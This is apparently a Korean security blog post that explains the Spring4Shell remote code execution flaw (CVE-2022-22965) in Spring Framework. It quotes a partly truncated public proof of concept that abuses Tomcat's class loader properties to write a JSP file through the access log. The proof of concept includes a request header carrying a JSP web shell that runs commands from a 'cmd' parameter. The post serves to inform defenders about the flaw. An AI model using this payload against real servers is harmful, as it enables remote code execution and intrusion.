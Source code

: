```yaml
---
title: "[하루한줄] CVE-2022-22965: Spring 프레임워크의 Spring4Shell 취약점"
author: L0ch
tags: [L0ch, spring, spring4shell, springshell rce, cve-2022-22965]
categories: [1day1line]
date: 2022-04-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)

## Target

- Containers

## Explain
Java 플랫폼의 오픈소스 프레임워크인 Spring Framework에서 원격 코드 실행이 가능한 취약점의 세부 정보가 공개되었습니다. Spring은 다양한 서비스에서 사용되는 인기있는 프레임워크로, 해당 취약점의 파급력이 클 것으로 예상되며 [Log4j의 RCE 취약점이었던 Log4Shell](https://hackyboiz.github.io/2021/12/12/l0ch/2021-12-12/)과 유사한 Spring4Shell, SpringShell 등으로 불리고 있습니다.

> 2월에는 [Spring Framework 관련 라이브러리에서 SpEL(Spring Expression Language) 를 악용한 취약점](https://hackyboiz.github.io/2022/03/03/l0ch/2022-03-03/)이 공개되기도 했습니다.

취약점은 Spring Core의 바인딩 프로세스 `bindRequestParameters`가 캐시의 객체 속성을 가져오기 위해 `getCachedIntrospectionResults` 메서드를 호출할 때 발생합니다.

![](./2022-04-03/image1.png)

`getCachedIntrospectionResults` 메서드는 위 사진과 같이 반환값에 클래스 객체가 포함되어 있습니다.

```java
...
@RequestMapping("/index")
	public void vuln(Model model) {
		...
	}
}

http://[host]/index?class.module....
```

따라서 원격에서 HTTP Request를 보내는것만으로 클래스에 접근할 수 있습니다.

취약점의 제보자는 Apache Tomcat에서 `classLoader` 로 Tomcat의 로깅 구성을 수정하고 임의 코드 실행을 트리거하는 [PoC를 공개했습니다.](https://github.com/tweedge/springcore-0day-en/blob/main/ANALYSIS_EN.md)

```c
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%66%75%6
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.directory=%48%3a%5c%6d
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuckJsp
http://[host]/index?class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

...

GET /stupidRumor_war_exploded/fuckUUUU HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
fuck: <%Runtime.getRuntime().exec(request.getParameter("cmd"))%>
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```